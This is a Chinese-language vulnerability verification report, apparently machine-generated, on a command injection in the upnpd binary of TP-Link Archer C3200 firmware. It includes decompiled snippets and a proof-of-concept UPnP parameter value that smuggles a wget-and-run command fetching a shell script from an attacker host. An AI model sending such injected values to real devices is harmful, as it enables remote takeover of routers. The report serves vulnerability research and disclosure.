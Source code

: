 # Archer_C3200_V1_150831 - 验证报告 (8 个发现)

---

## 原始信息

- **文件/目录路径：** `usr/bin/upnpd`
- **位置：** `upnpd:0xbca8 fcn.0000bca8, upnpd:0xecb0 fcn.0000ecb0, upnpd:0xe20c fcn.0000e20c`
- **描述：** 命令注入漏洞存在于 UPnP AddPortMapping 动作处理中。攻击者可以构造恶意的 UPnP 请求，在参数（如 NewExternalPort、NewProtocol、NewInternalClient、NewPortMappingDescription）中注入 shell 元字符（例如 '; malicious_command'）。当程序处理请求时，使用 snprintf 构建 iptables 命令字符串，并直接传递给 system 函数执行，由于缺乏输入验证和过滤，导致命令注入。触发条件：攻击者发送特制 UPnP 请求到设备的 UPnP 服务端口（通常无需认证）。潜在利用方式：远程代码执行，可能获取设备控制权。攻击者作为已连接用户（拥有有效登录凭据）可轻松利用此漏洞，因为 UPnP 服务常在内网开放。
- **代码片段：**
  ```
  // fcn.0000bca8: 提取用户输入参数
  iVar4 = fcn.0000d0b4(*(piVar6[-0x9c] + 0x3bc), 0x17e8); // 提取 NewExternalPort
  iVar4 = fcn.0000d0b4(*(piVar6[-0x9c] + 0x3bc), 0x17f8); // 提取 NewProtocol
  // 类似提取其他参数如 NewInternalClient
  fcn.0000e828(piVar6[-0x12]); // 调用处理函数
  
  // fcn.0000ecb0: 使用 snprintf 构建命令字符串
  sym.imp.snprintf(auStack_21c, 500, "%s -t nat -A %s -o %s -d %s -p %s --dport %s -j SNAT --to-source %s", *0xefa0, ...); // 参数来自用户输入
  fcn.0000e20c(auStack_21c); // 调用 system 执行命令
  
  // fcn.0000e20c: 直接调用 system
  int32_t iVar1 = sym.imp.system(*(&stack0x00000000 + -0xc)); // 执行构建的命令
  ```
- **备注：** 漏洞利用证据来自 r2 分析，显示用户输入直接嵌入命令字符串。攻击链完整：输入点（UPnP 参数）→ 数据流（snprintf 构建）→ 危险操作（system 调用）。建议验证输入参数，使用白名单过滤或转义 shell 元字符。进一步分析应检查其他 UPnP 动作（如 DeletePortMapping）是否存在类似问题。关联文件：/var/tmp/upnpd/upnpd.conf 可能包含配置数据。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确。证据显示：1) 在fcn.0000bca8中，UPnP参数（NewExternalPort、NewProtocol、NewInternalClient等）通过fcn.0000d0b4从用户输入提取，没有输入验证或过滤。2) 在fcn.0000ecb0中，使用snprintf构建命令字符串，用户输入被直接嵌入到命令中。3) 在fcn.0000e20c中，直接调用system函数执行命令。攻击者模型是未经身份验证的远程攻击者，能够发送UPnP请求到设备的UPnP服务端口（通常在内网开放且无需认证）。完整攻击链验证：输入可控（攻击者可构造恶意UPnP请求）、路径可达（UPnP服务常无需认证）、实际影响（远程代码执行）。PoC步骤：攻击者发送特制UPnP请求，在参数中注入shell元字符（如'; malicious_command'），例如：在NewExternalPort参数中注入'8080; wget http://attacker.com/shell.sh -O /tmp/shell.sh; sh /tmp/shell.sh'，当upnpd处理请求时，会执行注入的命令。

## 验证指标

- **验证时长：** 211.26 秒
- **Token 使用量：** 198341

---
